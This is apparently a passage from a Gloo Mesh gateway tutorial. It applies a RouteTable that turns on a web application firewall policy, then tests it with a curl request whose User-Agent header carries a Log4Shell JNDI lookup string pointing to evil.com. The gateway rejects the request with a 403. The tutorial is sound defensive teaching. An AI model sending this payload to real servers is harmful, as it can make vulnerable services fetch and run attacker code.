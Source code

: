 ```bash
```

In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
EOF
```



Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get" -i
```

The request should be rejected:

```
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

Let's apply the original `RouteTable` yaml:
